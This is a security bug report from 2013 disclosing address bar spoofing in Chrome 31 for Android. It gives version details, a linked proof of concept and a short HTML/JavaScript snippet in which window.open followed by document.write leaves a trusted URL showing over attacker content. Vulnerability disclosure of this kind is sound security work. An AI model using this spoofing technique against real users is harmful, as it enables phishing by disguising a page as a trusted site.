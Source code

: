 # Security: Address bar spoofing in Chrome for Android

> Reported by lpil...@gmail.com, Dec 2 2013 Back to list

## VULNERABILITY DETAILS

It is possible to spoof address bar content by opening a window and immediately writing to that window with document.write(). The address bar is filled with initial URL and not updated on document.write(), which cancels the navigation.

## VERSION

Chrome Version: 31.0.1650.59 stable
Operating System: Android 4.0.4; ST21i Build/11.0.A.4.22

## REPRODUCTION CASE

PoC: http://runic.pl/testy/android/chrome-31-abs.html

``` html
<script>
function test01() {
        pop = window.open('https:/www.google.com', '_t1');
        pop.document.write('<script>document.write(document.location.toString().replace("<","&lt;")+"<br>")</scr'+'ipt>');
}
</script>

<input type="button" onclick="test01()" value="Run">
```

## RESULT

"https://www.google.com" in address bar
"http://runic.pl/testy/android/chrome-31-abs.html" in page content
